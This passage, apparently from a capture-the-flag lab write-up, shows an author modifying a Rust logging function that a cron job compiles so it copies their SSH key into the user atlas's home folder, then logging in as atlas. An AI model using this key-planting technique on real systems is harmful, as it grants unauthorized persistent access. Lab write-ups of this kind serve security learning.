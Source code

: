 I saved my SSH public key on the server, and modified the code to copy it in atlas' home folder.

```rust
pub fn log(user: &str, query: &str, justification: &str) {
	Command::new("cp")
        .args(["/tmp/authorized_keys", "/home/atlas/.ssh/"])
        .spawn()
        .expect("ls command failed to start");
```

I used the same technique to make sure my modifications were present when the code was compiled and waited for the cron to run.

Then I reconnected as atlas.

```bash
$ ssh atlas@target
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Sep  4 01:48:13 PM UTC 2023

  System load:           0.0
  Usage of /:            77.0% of 11.65GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             229
  Users logged in:       1
  IPv4 address for eth0: 10.129.229.16
  IPv6 address for eth0: dead:beef::250:56ff:feb0:7089

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


atlas@sandworm:~$
```
